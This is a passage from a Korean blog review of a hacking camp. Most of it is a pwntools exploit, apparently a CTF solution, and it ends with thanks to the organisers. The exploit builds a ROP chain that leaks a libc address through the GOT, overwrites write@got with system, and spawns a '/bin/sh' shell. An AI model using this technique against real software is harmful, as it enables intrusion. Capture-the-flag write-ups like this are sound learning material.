 ```python
payload += pop_rdi + p64(1) + pop_rsi_r15 + p64(elf.got['write']) + p64(0) + pop_rdx + p64(8) + p64(elf.plt['write']) # write(1, write@got, 8)
payload += pop_rdi + p64(0) + pop_rsi_r15 + p64(elf.got['write']) + p64(0) + pop_rdx + p64(8) + p64(elf.plt['read']) # read(0, write@got, 8)
payload += pop_rdi + p64(0) + pop_rsi_r15 + p64(elf.bss()) + p64(0) + pop_rdx + p64(8) + p64(elf.plt['read']) # read(0, bss, 8)
payload += pop_rdi + p64(elf.bss()) + ret + p64(elf.plt['write'])# system("/bin/sh")

p.recvuntil(b'Second Chance: ')
p.send(payload)

libc_base = u64(p.recv(8)) - libc.sym['write'] #write

p.send(p64(libc_base + libc.sym['system']))
p.send(b"/bin/sh\x00")

p.interactive()
```

# 마치며

세 명 모두 처음으로 참여하는 해킹캠프였는데, 첫 참여임에도 여러 프로그램에 적극적으로 참여할 수 있도록 배려해주신 노력들이 느껴져 즐겁게 참여할 수 있었습니다. 동아리원들이나 보안하는 후배들에게 해킹캠프에 꼭 참여해보라고 적극적으로 추천하고 싶네요 :)

좋은 교류의 자리를 마련해주신 PoC Security, Demon팀, SISS, 후원사 및 발표자 분들에게 감사의 말씀을 드립니다! 

![picture1](hackingcamp_review/picture1.jpg)